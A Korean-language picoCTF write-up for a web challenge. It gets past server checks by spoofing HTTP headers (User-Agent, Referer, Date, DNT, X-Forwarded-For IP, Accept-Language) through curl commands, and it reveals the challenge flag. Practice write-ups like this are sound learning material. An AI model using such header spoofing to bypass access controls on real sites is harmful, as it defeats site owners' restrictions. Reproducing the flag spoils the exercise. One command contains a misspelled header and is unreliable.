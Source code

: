 ```yaml
---
tags:
  - picoCTF
tech:
  - Web
  - Header Modification
---
```


# Link
-  https://play.picoctf.org/practice/challenge/142?category=1&page=3

# Walk-Through

해당 문제는 브라우저에 표출되는 문장에 대응하는 적절한 HTTP Header를 수정해서 요청하는 방식으로 풀어낼 수 있다. 처음 접속하면 다음과 같은 문장이 보인다.
```
Only people who use the official PicoBrowser are allowed on this site!
```
PicoBrowser를 통해서만 접속할 수 있다고 하니 "User-Agent"를 "PicoBrowser"로 수정해서 접속하면 다음과 같은 문장이 나온다.
```
t trust users visiting from another site.
```
이 때 부터는 curl 명령어를 이용했다. 위 문장은 다른 사이트로부터 방문한 사용자를 허용하지 않는다고 하는 듯 하다.  HTTP Header 중 "Referer" Header는 웹 페이지 요청 시 해당 요청이 어디서 발생했는지를 나타낸다. 이 특징을 이용하자.
```bash
╰─$ curl -A "PicoBrowser" -H "Referer: http://mercury.picoctf.net:39114/" http://mercury.picoctf.net:39114/ 
```
이 요청에 대한 응답으로 다음과 같은 메세지를 볼 수 있다.
```
Sorry, this site only worked in 2018
```
이 사이트는 2018년에만 작동한다는 메세지이다. HTTP Header의 "Date"를 활용해보자. Date Header는 Http 메시지가 발생한 날짜와 시간을 포함할 수 있다.
``` bash
╰─$ curl -A "PicoBrowser" -H "Referer: mercury.picoctf.net:39114/" -H "Date: 2018" http://mercury.picoctf.net:39114/
```
이 요청에 대한 결과는 다음과 같다.
```
t trust users who can be tracked.
```
추적에 관련된 메시지인데 HTTP Header 중 DNT를 활용할 수 있을 듯 보인다. DNT는 사용자의 추적 설정을 나타내는데 사용된다.
```bash
╰─$ curl -A "PicoBrowser" -H "Referer: mercury.picoctf.net:39114/" -H "Date: 2018" -H "DNT: 1" http://mercury.picoctf.net:39114/
```
이에 대한 응답으로는 다음과 같은 메시지가 응답된다.
```
This website is only for people from Sweden.
```
X-Forwarded-For를 활용하자. 이 HTTP Header는 MDN의 문서에 따르면 "HTTP 프록시나 로드 밸런서를 통해 웹 서버로 연결하는 클라이언트의 시작 IP 주소"라고 한다.
```
╰─$ curl -A "PicoBrowser" -H "Referer: mercury.picoctf.net:39114/" -H "Date: 2018" -H "DNT: 1" -H "X-Forwared-For: 92.34.186.83" http://mercury.picoctf.net:39114/
```
이에 대한 응답은 다음과 같다.
```
re in Sweden but you don&#39;t speak Swedish?
```
Accept-Language Header를 이용해 스웨던 언어를 허용하면 될 듯 보인다.

```bash
╰─$ curl -A "PicoBrowser" -H "Referer: mercury.picoctf.net:39114/" -H "Date: 2018" -H "DNT: 1" -H "X-Forwarded-For: 92.34.186.83" -H "Accept-Language: sv-SWE" http://mercury.picoctf.net:39114/ -vv
```
이후 flag를 확인할 수 있다.


flag
- picoCTF{http_h34d3rs_v3ry_c0Ol_much_w0w_20ace0e4}